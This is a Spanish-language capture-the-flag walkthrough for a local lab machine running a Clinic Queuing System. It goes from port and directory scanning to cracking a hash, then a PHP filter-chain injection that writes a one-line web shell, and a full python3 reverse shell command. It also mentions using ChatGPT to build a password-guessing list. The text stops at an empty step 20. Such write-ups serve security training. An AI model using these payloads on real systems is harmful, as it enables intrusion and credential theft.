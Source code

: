 ## 1) Iniciamos la maquina.
```bash
sudo ./auto_deploy.sh queuemedic.tar
```

![Diagrama del sistema](ANEXOS/Pasted image 20240925173632.png)

##2) Nos dirigimos al navegador e ingresamos la dirección http://172.17.0.2.
![./ANEXOS/Pasted image 20240925173823.png]
*Al ingresar a la url se carga un formulario de acceso.*

![[Pasted image 20240925180151.png]]
*Analizando la web con wappalyzer no se encontró ninguna información que nos pueda llamar la atención para investigar.*

3) Realizamos un escaneo de puertos con nmap.
```shell
nmap -sV -Pn 172.17.0.2 
```

![[Pasted image 20240925174021.png]]
*Al terminar el proceso se encontró un solo puerto abierto el 80 con un servidor Apache.*

4) Realizamos una búsqueda de carpetas y archivos con gobuster.

```shell
gobuster dir -u http://172.17.0.2 -w /usr/share/wordlists/dirb/common.txt --exclude-length 0,275
```

![[Pasted image 20240925174813.png]]
*Al terminar el proceso se encontro con varias carpetas con posibles datos sensibles ellas son /backup y /db.*

5) Nos dirigimos a la url de /backup http://172.17.0.2/backup.

![[Pasted image 20240925175148.png]]
*Al ingresar vemos un archivo con extensión .zip lo cual procedemos a descargarlo para su posterior análisis.*

6) Nos dirigimos a la url de /db http://172.17.0.2/db.
 
![[Pasted image 20240925175503.png]]
*Al ingresar observamos un archivo con extensión .db lo cual procedemos a descargarlo para su posterior análisis.*

7) Analizamos los archivos descargados:
	a) Descomprimimos y verificamos el contenido del archivo backup.zip.	
	
	![[Pasted image 20240925175854.png]]
	*Nos encontramos con un backup completo del sistema Clinic Queuing System, en el cual realizando un análisis de cada archivo se encontró una posible vulnerabilidad en "index.php "en el método que utiliza para llamar a "page".*
	
	b) Abrimos el archivo clinic_queuing_db.db con sqlitebrowser.
	
	![[Pasted image 20240925180826.png]]
	*Al abrir la base de datos podemos ver las tablas de la db y desplegamos la tabla user_list*
	![[Pasted image 20240925181901.png]]
	*Al realizar la consulta sobre esta tabla user_list, se puede observar el contenido del mismo con los datos de username y password en la cual esta encriptada.*
	
8) Ataque de diccionario a los hashes encontrados.
	a) *Al realizar el ataque por fuerza bruta no se pudo obtener la contraseña de Administrador.*
	b) *Para obtener una lista con posibles contraseña para el usuario "Jessica Castro" utilizamos ChatGpt en el cual nos brinda una lista de 100 posibles contraseñas.*
	
	![[Pasted image 20240925183606.png]]
	![[Pasted image 20240925183512.png]]
	c) *Al finalizar el ataque por fuerza bruta con john the ripper pudo obtener una contraseña que concuerda con el hash del usuario "jessica" la cual es "j.castro".*

9) Volviendo la pagina principal en el login http://172.17.0.2.
![[Pasted image 20240925184644.png]]
*Iniciamos sesión con las credenciales obtenidas.*
![[Pasted image 20240925184845.png]]
*Analizando la pagina web ademas de un xss en el registro de usuarios y pasientes no se encontro.*

10) Busueda de Clinic Queuing System (php) en google.
![[Pasted image 20240925185754.png]]
*Al realizar la búsqueda en google no encontramos con el cms pero también arrojo en exploit-db un exploit en el cual se pude obtener RCE.*

11) Descarga https://www.exploit-db.com/exploits/52008 y análisis del exploit.
12) Al descargar y ejecutar el exploit vemos que no realiza la explotación del servicio.
	![[Pasted image 20241011082236.png]]
13) Analizando en detalle el código del sitio y el exploit encontré que había unas validaciones que hace la pagina por lo cual el exploit no puede realizar correctamente su cometido. 
14) Fijándome mas en detalle tengo acceso a un usuario que es administrador y en el exploit crea un usuario administrador entonces lo que se me ocurrió a analizar en que parámetros inyecta para obtener un RCE.
	![[Pasted image 20241011083138.png]]
15) Como se observa en la imagen el exploit inyecta en el parámetro `?page=` un `filter_chain` y después en el parámetro `&0=`, crea el archivo `rce.php` y escribe el contendido ``<?=`$_GET[0]`?>`` parseado en base64.
16) Entonces lo que tuve que hacer es unir todo el contenido de la variable `filter_chain` mas el parámetro 0 y ejecutarlo directamente en el navegador.
	![[Pasted image 20241011085843.png]]
	*El `filter_chain` es mas extenso pero así quedaría para inyectarlo directamente al navegador.*
	![[Pasted image 20241011090029.png]]
	*Ya tengo ejecución de comandos *
17) Ahora creo una reverse shell utilizando python3.

 ```bash
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("172.17.0.1",1337));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")'
 ```
 
 y en mi consola obtengo la conexión.
	 ![[Pasted image 20241011090521.png]]
	 
 18) Luego del tratamiento de la tty, listo el contenido del escritorio donde estoy ubicado y también listo la carpeta /home, en el cual encontré una carpeta jessica del que creo que es un usuario de sistema entonces realizo un cat al archivo /etc/passwd y encuentro al usuario.
	 ![[Pasted image 20241011092359.png]]
19) Como tengo un usuario llamado con el mismo nombre que el usuario de la web y como ya tengo una contraseña lo que hago es poner la misma contraseña y ahi ingreso al usuario jessica del sistema.
	 ![[Pasted image 20241011092814.png]]
	20) 
